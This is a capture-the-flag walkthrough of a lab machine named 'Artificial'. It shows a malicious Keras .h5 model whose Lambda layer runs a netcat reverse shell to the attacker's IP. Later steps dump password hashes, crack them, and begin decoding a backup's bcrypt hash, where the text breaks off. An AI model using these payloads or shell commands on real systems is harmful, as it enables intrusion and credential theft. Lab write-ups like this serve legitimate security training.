


# Artificial



target Ip : `10.10.11.74`

## Pinging

```bash
                                                                                                               
┌──(kali㉿kali)-[~]
└─$ ping 10.10.11.74
PING 10.10.11.74 (10.10.11.74) 56(84) bytes of data.
64 bytes from 10.10.11.74: icmp_seq=1 ttl=63 time=1652 ms
64 bytes from 10.10.11.74: icmp_seq=2 ttl=63 time=641 ms
64 bytes from 10.10.11.74: icmp_seq=3 ttl=63 time=365 ms
^C
--- 10.10.11.74 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3176ms
rtt min/avg/max/mdev = 364.530/885.924/1652.003/553.352 ms, pipe 2
```

## Nmap Scan

```bash
                                                                                                               
┌──(kali㉿kali)-[~]
└─$ nmap -sCV  10.10.11.74  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 08:43 EDT
Nmap scan report for 10.10.11.74
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.11 seconds

```

! `http-title: Did not follow redirect to http://artificial.htb/`

I need to add the domain [`http://artificial.htb/`](http://artificial.htb/) to the `/etc/hosts`

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts            
[sudo] password for kali: 
```



I accessed the IP in my browser since `port 80 was open`, indicating an `HTTP` service was running

```bash
┌──(kali㉿kali)-[~]
└─$ firefox 10.10.11.74 &           
[1] 87842
```


I registered on the website and then login and get to the dashboard


So there was an example code given on the machine before registering 

## Uploading the `example_codes` **`model.h5`** file

the example code :

```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5') 
```

I decided to **train this code and upload its `.h5` file** to observe how the website handles the upload. Before attempting to gain a shell, I'm first analyzing the website's behavior and functionality.

```bash
┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ nano example_code.py
```


### Downloading the requirements :

the requirements provided

```python
tensorflow-cpu==2.13.1
```

This specific version of **`tensorflow-cpu==2.13.1`** is not compatible with Python 3.13. To resolve this, I have two options:

- **Install a compatible Python version** that supports `tensorflow-cpu==2.13.1`.
- **Use the provided Dockerfile** to build and run the environment inside a container.

## Docker :

[Docker Installation commands : ](https://www.notion.so/Docker-Installation-commands-27b5bb87e26980568c1ece679e406fdd?pvs=21)

After installing Docker on my machine, I set up the Docker container using the following commands :

```bash
┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ sudo docker build -t my-env .

[+] Building 231.9s (8/8) FINISHED                                                                                                             docker:default
 => [internal] load build definition from Dockerfile                                                                                                     0.0s
 => => transferring dockerfile: 496B                                                                                                                     0.0s
 => [internal] load metadata for docker.io/library/python:3.8-slim                                                                                       4.1s
 => [internal] load .dockerignore                                                                                                                        0.0s
 => => transferring context: 2B                                                                                                                          0.0s
 => [1/4] FROM docker.io/library/python:3.8-slim@sha256:1d52838af602b4b5a831beb13a0e4d073280665ea7be7f69ce2382f29c5a613f                                25.0s
 => => resolve docker.io/library/python:3.8-slim@sha256:1d52838af602b4b5a831beb13a0e4d073280665ea7be7f69ce2382f29c5a613f                                 0.0s
 => => sha256:314bc2fb0714b7807bf5699c98f0c73817e579799f2d91567ab7e9510f5601a5 1.75kB / 1.75kB                                                           0.0s
 => => sha256:b5f62925bd0f63f48cc8acd5e87d0c3a07e2f229cd2fb0a9586e68ed17f45ee3 5.25kB / 5.25kB                                                           0.0s
 => => sha256:302e3ee498053a7b5332ac79e8efebec16e900289fc1ecd1c754ce8fa047fcab 29.13MB / 29.13MB                                                        16.2s
 => => sha256:030d7bdc20a63e3d22192b292d006a69fa3333949f536d62865d1bd0506685cc 3.51MB / 3.51MB                                                          23.6s
 => => sha256:a3f1dfe736c5f959143f23d75ab522a60be2da902efac236f4fb2a153cc14a5d 14.53MB / 14.53MB                                                        10.8s
 => => sha256:1d52838af602b4b5a831beb13a0e4d073280665ea7be7f69ce2382f29c5a613f 10.41kB / 10.41kB                                                         0.0s
 => => sha256:3971691a363796c39467aae4cdce6ef773273fe6bfc67154d01e1b589befb912 248B / 248B                                                              11.6s
 => => extracting sha256:302e3ee498053a7b5332ac79e8efebec16e900289fc1ecd1c754ce8fa047fcab                                                                1.8s
 => => extracting sha256:030d7bdc20a63e3d22192b292d006a69fa3333949f536d62865d1bd0506685cc                                                                0.2s
 => => extracting sha256:a3f1dfe736c5f959143f23d75ab522a60be2da902efac236f4fb2a153cc14a5d                                                                0.9s
 => => extracting sha256:3971691a363796c39467aae4cdce6ef773273fe6bfc67154d01e1b589befb912                                                                0.0s
 => [2/4] WORKDIR /code                                                                                                                                  0.3s
 => [3/4] RUN apt-get update &&     apt-get install -y curl &&     curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d124  119.0s
 => [4/4] RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl                                              72.4s 
 => exporting to image                                                                                                                                  11.1s 
 => => exporting layers                                                                                                                                 11.1s 
 => => writing image sha256:a0da0861a775681557f68c633bb910257621f7bbb8d5c740ee7494fd2ddb5180                                                             0.0s 
 => => naming to docker.io/library/my-env                                                                                                                0.0s 
                                                                                                                                                              
┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ sudo docker run -it my-env 

root@7ac4a934bfac:/code# 
```

### Training :

First, I needed to **transfer `example_code.py` into the Docker container** to use it within the containerized environment.

```bash
                                                                                                                                                              
┌──(kali㉿kali)-[~/Artificial]
└─$ sudo docker cp example_code.py 7ac4a934bfac:/code/

Successfully copied 2.56kB to 7ac4a934bfac:/code/
```

I trained the model using `example_code.py` **inside the Docker environment** to ensure compatibility and isolation.

But first i have to install the requirements:

```docker
root@7ac4a934bfac:/code# pip install pandas tensorflow
Collecting pandas
  Downloading pandas-2.0.3-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (12.4 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 12.4/12.4 MB 4.3 MB/s eta 0:00:00
Collecting tensorflow
  Downloading tensorflow-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (479.6 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 479.6/479.6 MB 2.4 MB/s eta 0:00:00
Requirement already satisfied: numpy>=1.20.3 in /usr/local/lib/python3.8/site-packages (from pandas) (1.24.3)
Collecting python-dateutil>=2.8.2
  Downloading python_dateutil-2.9.0.post0-py2.py3-none-any.whl (229 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 229.9/229.9 kB 6.0 MB/s eta 0:00:00
Collecting tzdata>=2022.1
  Downloading tzdata-2025.2-py2.py3-none-any.whl (347 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 347.8/347.8 kB 3.4 MB/s eta 0:00:00
Collecting pytz>=2020.1
  Downloading pytz-2025.2-py2.py3-none-any.whl (509 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 509.2/509.2 kB 7.3 MB/s eta 0:00:00
```

```docker
root@7ac4a934bfac:/code# python example_code.py 
2025-08-02 16:49:46.572642: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.
2025-08-02 16:49:46.642854: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.
2025-08-02 16:49:46.643726: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.
To enable the following instructions: FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
2025-08-02 16:49:47.779978: W tensorflow/compiler/tf2tensorrt/utils/py_utils.cc:38] TF-TRT Warning: Could not find TensorRT
Epoch 1/100
6/6 [==============================] - 1s 4ms/step - loss: 2657.5759
Epoch 2/100
6/6 [==============================] - 0s 2ms/step - loss: 1855.1747
Epoch 3/100
6/6 [==============================] - 0s 2ms/step - loss: 1476.2571
Epoch 4/100
6/6 [==============================] - 0s 1ms/step - loss: 1402.2446
Epoch 5/100
6/6 [==============================] - 0s 2ms/step - loss: 1435.5803
Epoch 6/100
6/6 [==============================] - 0s 1ms/step - loss: 1435.2631
Epoch 7/100
6/6 [==============================] - 0s 1ms/step - loss: 1409.1533
Epoch 8/100
6/6 [==============================] - 0s 1ms/step - loss: 1402.6150
Epoch 9/100
6/6 [==============================] - 0s 1ms/step - loss: 1400.2678
Epoch 10/100
6/6 [==============================] - 0s 1ms/step - loss: 1398.6239
Epoch 11/100
6/6 [==============================] - 0s 1ms/step - loss: 1402.1268
Epoch 12/100
6/6 [==============================] - 0s 1ms/step - loss: 1399.2357
Epoch 13/100
6/6 [==============================] - 0s 1ms/step - loss: 1398.5847
Epoch 14/100
6/6 [==============================] - 0s 1ms/step - loss: 1397.6688
Epoch 15/100
6/6 [==============================] - 0s 1ms/step - loss: 1398.7490
Epoch 16/100
6/6 [==============================] - 0s 1ms/step - loss: 1398.0975
Epoch 17/100
6/6 [==============================] - 0s 1ms/step - loss: 1395.9838
Epoch 18/100
6/6 [==============================] - 0s 1ms/step - loss: 1393.5764
Epoch 19/100
6/6 [==============================] - 0s 1ms/step - loss: 1398.0018
Epoch 20/100
6/6 [==============================] - 0s 1ms/step - loss: 1399.2761
Epoch 21/100
6/6 [==============================] - 0s 1ms/step - loss: 1396.1263
Epoch 22/100
6/6 [==============================] - 0s 1ms/step - loss: 1392.7689
Epoch 23/100
6/6 [==============================] - 0s 2ms/step - loss: 1390.5905
Epoch 24/100
6/6 [==============================] - 0s 2ms/step - loss: 1388.4757
Epoch 25/100
6/6 [==============================] - 0s 1ms/step - loss: 1388.0079
Epoch 26/100
6/6 [==============================] - 0s 1ms/step - loss: 1387.9851
Epoch 27/100
6/6 [==============================] - 0s 1ms/step - loss: 1386.3965
Epoch 28/100
6/6 [==============================] - 0s 1ms/step - loss: 1389.5631
Epoch 29/100
6/6 [==============================] - 0s 1ms/step - loss: 1387.6338
Epoch 30/100
6/6 [==============================] - 0s 1ms/step - loss: 1383.6476
Epoch 31/100
6/6 [==============================] - 0s 2ms/step - loss: 1381.9307
Epoch 32/100
6/6 [==============================] - 0s 1ms/step - loss: 1380.1764
Epoch 33/100
6/6 [==============================] - 0s 1ms/step - loss: 1379.8689
Epoch 34/100
6/6 [==============================] - 0s 1ms/step - loss: 1386.3385
Epoch 35/100
6/6 [==============================] - 0s 1ms/step - loss: 1380.5398
Epoch 36/100
6/6 [==============================] - 0s 1ms/step - loss: 1380.8529
Epoch 37/100
6/6 [==============================] - 0s 1ms/step - loss: 1375.2432
Epoch 38/100
6/6 [==============================] - 0s 1ms/step - loss: 1384.8387
Epoch 39/100
6/6 [==============================] - 0s 1ms/step - loss: 1373.8259
Epoch 40/100
6/6 [==============================] - 0s 1ms/step - loss: 1375.0564
Epoch 41/100
6/6 [==============================] - 0s 1ms/step - loss: 1379.7794
Epoch 42/100
6/6 [==============================] - 0s 1ms/step - loss: 1370.8706
Epoch 43/100
6/6 [==============================] - 0s 1ms/step - loss: 1374.2566
Epoch 44/100
6/6 [==============================] - 0s 2ms/step - loss: 1368.7592
Epoch 45/100
6/6 [==============================] - 0s 1ms/step - loss: 1366.9135
Epoch 46/100
6/6 [==============================] - 0s 1ms/step - loss: 1365.7024
Epoch 47/100
6/6 [==============================] - 0s 2ms/step - loss: 1365.2936
Epoch 48/100
6/6 [==============================] - 0s 1ms/step - loss: 1374.5671
Epoch 49/100
6/6 [==============================] - 0s 1ms/step - loss: 1370.0232
Epoch 50/100
6/6 [==============================] - 0s 1ms/step - loss: 1367.8571
Epoch 51/100
6/6 [==============================] - 0s 1ms/step - loss: 1367.2717
Epoch 52/100
6/6 [==============================] - 0s 1ms/step - loss: 1363.8309
Epoch 53/100
6/6 [==============================] - 0s 1ms/step - loss: 1364.4172
Epoch 54/100
6/6 [==============================] - 0s 1ms/step - loss: 1359.6597
Epoch 55/100
6/6 [==============================] - 0s 1ms/step - loss: 1354.5908
Epoch 56/100
6/6 [==============================] - 0s 1ms/step - loss: 1353.1670
Epoch 57/100
6/6 [==============================] - 0s 1ms/step - loss: 1350.9111
Epoch 58/100
6/6 [==============================] - 0s 1ms/step - loss: 1354.6489
Epoch 59/100
6/6 [==============================] - 0s 1ms/step - loss: 1348.6312
Epoch 60/100
6/6 [==============================] - 0s 1ms/step - loss: 1352.0774
Epoch 61/100
6/6 [==============================] - 0s 1ms/step - loss: 1355.4167
Epoch 62/100
6/6 [==============================] - 0s 1ms/step - loss: 1346.1991
Epoch 63/100
6/6 [==============================] - 0s 2ms/step - loss: 1340.3402
Epoch 64/100
6/6 [==============================] - 0s 1ms/step - loss: 1365.5771
Epoch 65/100
6/6 [==============================] - 0s 1ms/step - loss: 1364.7020
Epoch 66/100
6/6 [==============================] - 0s 1ms/step - loss: 1340.9521
Epoch 67/100
6/6 [==============================] - 0s 1ms/step - loss: 1331.7148
Epoch 68/100
6/6 [==============================] - 0s 2ms/step - loss: 1344.1965
Epoch 69/100
6/6 [==============================] - 0s 1ms/step - loss: 1334.1667
Epoch 70/100
6/6 [==============================] - 0s 1ms/step - loss: 1329.4572
Epoch 71/100
6/6 [==============================] - 0s 1ms/step - loss: 1334.7534
Epoch 72/100
6/6 [==============================] - 0s 1ms/step - loss: 1337.7146
Epoch 73/100
6/6 [==============================] - 0s 1ms/step - loss: 1333.3391
Epoch 74/100
6/6 [==============================] - 0s 1ms/step - loss: 1320.5615
Epoch 75/100
6/6 [==============================] - 0s 1ms/step - loss: 1333.3795
Epoch 76/100
6/6 [==============================] - 0s 1ms/step - loss: 1328.9861
Epoch 77/100
6/6 [==============================] - 0s 1ms/step - loss: 1323.7205
Epoch 78/100
6/6 [==============================] - 0s 1ms/step - loss: 1322.9366
Epoch 79/100
6/6 [==============================] - 0s 1ms/step - loss: 1313.3303
Epoch 80/100
6/6 [==============================] - 0s 1ms/step - loss: 1318.1343
Epoch 81/100
6/6 [==============================] - 0s 1ms/step - loss: 1324.4011
Epoch 82/100
6/6 [==============================] - 0s 1ms/step - loss: 1309.2561
Epoch 83/100
6/6 [==============================] - 0s 1ms/step - loss: 1303.8236
Epoch 84/100
6/6 [==============================] - 0s 1ms/step - loss: 1309.1774
Epoch 85/100
6/6 [==============================] - 0s 1ms/step - loss: 1307.4675
Epoch 86/100
6/6 [==============================] - 0s 1ms/step - loss: 1299.8998
Epoch 87/100
6/6 [==============================] - 0s 1ms/step - loss: 1296.5911
Epoch 88/100
6/6 [==============================] - 0s 1ms/step - loss: 1298.3772
Epoch 89/100
6/6 [==============================] - 0s 1ms/step - loss: 1293.6841
Epoch 90/100
6/6 [==============================] - 0s 1ms/step - loss: 1293.7925
Epoch 91/100
6/6 [==============================] - 0s 1ms/step - loss: 1303.8613
Epoch 92/100
6/6 [==============================] - 0s 1ms/step - loss: 1282.3834
Epoch 93/100
6/6 [==============================] - 0s 1ms/step - loss: 1296.2390
Epoch 94/100
6/6 [==============================] - 0s 2ms/step - loss: 1306.0033
Epoch 95/100
6/6 [==============================] - 0s 1ms/step - loss: 1301.4514
Epoch 96/100
6/6 [==============================] - 0s 1ms/step - loss: 1274.6923
Epoch 97/100
6/6 [==============================] - 0s 1ms/step - loss: 1287.2194
Epoch 98/100
6/6 [==============================] - 0s 1ms/step - loss: 1290.1676
Epoch 99/100
6/6 [==============================] - 0s 1ms/step - loss: 1267.7010
Epoch 100/100
6/6 [==============================] - 0s 1ms/step - loss: 1267.7042
/usr/local/lib/python3.8/site-packages/keras/src/engine/training.py:3000: UserWarning: You are saving your model as an HDF5 file via `model.save()`. This file format is considered legacy. We recommend using instead the native Keras format, e.g. `model.save('my_model.keras')`.
  saving_api.save_model(
root@7ac4a934bfac:/code# ls
example_code.py  profits_model.h5  tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

```

Now i have to sent **`“profits_model.h5”` back to my machine from this docker environment**

```bash
                                                                                                                                                              
┌──(kali㉿kali)-[~/Artificial]
└─$ sudo docker ps                                     
[sudo] password for kali: 
CONTAINER ID   IMAGE     COMMAND       CREATED          STATUS          PORTS     NAMES
7ac4a934bfac   my-env    "/bin/bash"   19 minutes ago   Up 19 minutes             cranky_noyce
                                                                                                                                                              
┌──(kali㉿kali)-[~/Artificial]
└─$ sudo docker cp 7ac4a934bfac:/code/profits_model.h5 ~/Artificial 
Successfully copied 85.5kB to /home/kali/Artificial
                                                                                                                                                              
┌──(kali㉿kali)-[~/Artificial]
└─$ la
Dockerfile  example_code.py  profits_model.h5
```

## Uploading the `profit_model.h5` file to the website :


After clicking on `"View Predictions"`, I was redirected to a new page displaying the prediction results.


By viewing the page source **`(Ctrl + U)`**, I discovered that the server runs the uploaded model directly. This suggests a potential vulnerability — I may be able to upload a **malicious `.h5` file** and possibly gain a **reverse shell** or execute arbitrary code.


I researched potential exploits and found a relevant one documented here:

[**TensorFlow Remote Code Execution via Malicious Model**](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)


The python code i have used:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.37 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I transferred the **`exploit.py`** file to my Docker environment and successfully compiled it there

```python
root@7ac4a934bfac:/code# ls
example_code.py  exploit.py  profits_model.h5  tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@7ac4a934bfac:/code# python exploit.py 
2025-08-02 17:08:47.392158: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.
2025-08-02 17:08:47.451761: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.
2025-08-02 17:08:47.452523: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.
To enable the following instructions: FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
2025-08-02 17:08:48.486281: W tensorflow/compiler/tf2tensorrt/utils/py_utils.cc:38] TF-TRT Warning: Could not find TensorRT
sh: 1: nc: not found
/usr/local/lib/python3.8/site-packages/keras/src/engine/training.py:3000: UserWarning: You are saving your model as an HDF5 file via `model.save()`. This file format is considered legacy. We recommend using instead the native Keras format, e.g. `model.save('my_model.keras')`.
  saving_api.save_model(
root@7ac4a934bfac:/code# ls
example_code.py  exploit.h5  exploit.py  profits_model.h5  tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@7ac4a934bfac:/code# 
```

I then transferred the **`exploit.h5`** file back to my local machine and set up a listener on **`port 4444`** before uploading the model.

**Note:** The reverse shell is triggered—and the listener starts receiving a connection—

**only after clicking the `"View Prediction"` button**


Boom — after clicking **"View Prediction"**, the reverse shell successfully connected, and I gained a shell on the target system.

```python
┌──(kali㉿kali)-[~/Artificial]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.10.16.37] from (UNKNOWN) [10.10.11.74] 34092
/bin/sh: 0: can't access tty; job control turned off
$ 
```

made it stable :

```python
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
app@artificial:~/app$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                              
┌──(kali㉿kali)-[~/Artificial]
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444

app@artificial:~/app$ 
```

I looked around and found a database i.e. **`user.db`**


```python
app@artificial:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> .schema user
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(100) NOT NULL, 
	email VARCHAR(120) NOT NULL, 
	password VARCHAR(200) NOT NULL, 
	PRIMARY KEY (id), 
	UNIQUE (username), 
	UNIQUE (email)
);
sqlite> SELECT * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|test|test2@test.com|5416d7cd6ef195a0f7622a9c56b55e84
7|b3ta-blocker|spam@example.com|81dc9bdb52d04dc20036dbd8313ed055
8|user|user@spam.com|81dc9bdb52d04dc20036dbd8313ed055
sqlite> 
```

i found different users and there hashes


Gotta crack the hash for user **gael** — then switch over.

## Hash Crack :

```python
┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ echo 'c99175974b6e192936d97224638a34f8' > gael.hash

┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt gael.hash

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
No password hashes left to crack (see FAQ)

┌──(work)─(kali㉿kali)-[~/Artificial]
└─$ john --show --format=raw-md5 gael.hash

?:mattp005numbertwo

1 password hash cracked, 0 left
```

Cracked it — password for **gael** is `mattp005numbertwo`.

## Switch user

```python
@artificial:/home$ su gael
Password: 
gael@artificial:/home$ 
```

# User Flag

```python
gael@artificial:/home$ ls
app  gael
gael@artificial:/home$ cd
gael@artificial:~$ ls
user.txt
gael@artificial:~$ cat user.txt 
927fecec7fada68c4f477ae6b3d956c3
```

User flag : **`927fecec7fada68c4f477ae6b3d956c3`**

# Root Flag

```python
gael@artificial:/$ cd /root
bash: cd: /root: Permission denied
gael@artificial:/$ ls -lah /root
ls: cannot open directory '/root': Permission denied
```

Clearly can’t access the `/root`  

so i then get the [**`linpeas.sh`**](http://linpeas.sh) by setting up a python server on from y hacking machine 


## Linpeas

Found some active ports, but **`9898`** was hidden from Nmap — setting up **`local port forwarding`** to see what’s running behind it.


### Local port forwarding

syntax : 

```bash
ssh -L <local_port>:<target_host>:<target_port> <ssh_user>@<ssh_gateway>
```

```bash

┌──(kali㉿kali)-[~/Artificial]
└─$ ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74

gael@10.10.11.74's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 02 Aug 2025 05:59:55 PM UTC

  System load:           0.0
  Usage of /:            63.1% of 7.53GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             297
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.74
  IPv6 address for eth0: dead:beef::250:56ff:feb9:52f8

  => There is 1 zombie process.

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Aug 2 17:59:56 2025 from 10.10.16.37
gael@artificial:~$ 

```


Gael’s creds didn’t work here,

Looked into Backrest backup 

```bash
gael@artificial:/var/backups$ ls -laZ
total 51228
drwxr-xr-x  2 root root   ?     4096 Aug  2 19:16 .
drwxr-xr-x 13 root root   ?     4096 Jun  2 07:38 ..
-rw-r--r--  1 root root   ?    38602 Jun  9 10:48 apt.extended_states.0
-rw-r--r--  1 root root   ?     4253 Jun  9 09:02 apt.extended_states.1.gz
-rw-r--r--  1 root root   ?     4206 Jun  2 07:42 apt.extended_states.2.gz
-rw-r--r--  1 root root   ?     4190 May 27 13:07 apt.extended_states.3.gz
-rw-r--r--  1 root root   ?     4383 Oct 27  2024 apt.extended_states.4.gz
-rw-r--r--  1 root root   ?     4379 Oct 19  2024 apt.extended_states.5.gz
-rw-r--r--  1 root root   ?     4367 Oct 14  2024 apt.extended_states.6.gz
-rw-r-----  1 root sysadm ? 52357120 Mar  4 22:19 backrest_backup.tar.gz
```

Didn’t have permission to extract the file in place, so I extracted it in the **`/tmp`** directory instead.

```bash
l@artificial:/var/backups$ tar -xf /var/backups/backrest_backup.tar.gz -C /tmp
gael@artificial:/var/backups$ 
```

it worked !

```bash
gael@artificial:/tmp$ cd backrest/.config/backrest/
gael@artificial:/tmp/backrest/.config/backrest$ ls
config.json
gael@artificial:/tmp/backrest/.config/backrest$ cat config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
gael@artificial:/tmp/backrest/.config/backrest$ 
```

username : backrest_root
Bcrypt : JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d | tee roothash

